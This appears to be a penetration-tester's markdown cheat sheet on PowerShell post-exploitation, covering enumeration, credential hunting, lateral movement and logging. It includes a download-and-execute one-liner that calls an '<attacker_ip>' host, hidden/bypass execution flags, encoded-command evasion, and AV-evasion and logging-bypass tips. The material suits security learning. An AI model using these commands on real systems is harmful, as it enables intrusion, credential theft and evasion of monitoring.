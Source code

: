 # PowerShell for Post-Exploitation

PowerShell is a powerful command-line shell and scripting language built into modern Windows systems. It provides extensive access to system internals, making it one of the most valuable tools for **post-exploitation**, **privilege escalation**, **reconnaissance**, and **lateral movement**.
## 1. Basics

Launch PowerShell:

```cmd
powershell
```

Run a one-liner:

```cmd
powershell -Command "Get-Process"
```

Suppress warnings/logs:

```powershell
powershell -nop -w hidden -ep bypass
```
## 2. Execution Policy Overview

> See the separate note: `🟠 6. Execution Policy.md` for full details.

Temporarily bypass policy:

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```
## 3. Enumeration Techniques

### Get Local Users

```powershell
Get-LocalUser
```
### Get Group Membership

```powershell
Get-LocalGroupMember -Group "Administrators"
```
### Get Running Processes

```powershell
Get-Process
```
### List Scheduled Tasks

```powershell
Get-ScheduledTask
```
## 4. File and Registry Enumeration

```powershell
Get-ChildItem -Recurse C:\Users\
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
```
## 5. Credential Hunting

Look for stored credentials in files:

```powershell
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
```

Or extract DPAPI credentials using:

```powershell
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Vault"
```
## 6. Download & Execute Remote Payloads

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<attacker_ip>/script.ps1')
```

Encode commands to evade detection:

```powershell
powershell -EncodedCommand <base64 string>
```
## 7. Offensive Modules & Tools

|Tool|Purpose|
|---|---|
|PowerView|AD enumeration, user/group recon|
|PowerUp|Privilege escalation techniques|
|Nishang|Payloads, reverse shells, persistence|
|PowerSploit|Post-exploitation framework|
|Empire Modules|Full C2 support with PowerShell|
## 8. AV Evasion & Obfuscation

Use `Invoke-Obfuscation` or `PowerShellCrypter` to:

- Change variable names    
- Encode payloads
- Modify script structure

Avoid suspicious strings like `Invoke-Expression`, `DownloadString`, `IEX`, etc.
## 9. PowerShell Logging and Detection

Logging events to monitor:

| Log Source                               | Event ID   | Description                          |
| ---------------------------------------- | ---------- | ------------------------------------ |
| Windows PowerShell                       | 400, 403   | Engine state changes                 |
| Microsoft-Windows-PowerShell/Operational | 4103, 4104 | Script block execution (4104 is key) |

Bypassing logging:

- Use `System.Net.WebClient` instead of `Invoke-WebRequest`    
- EncodedCommand with `-w hidden -nop -ep bypass`
## 10. PowerShell Remoting

If enabled and allowed by firewall:

```powershell
Enter-PSSession -ComputerName <target> -Credential <user>
```

Can be used for **lateral movement** in domain environments.
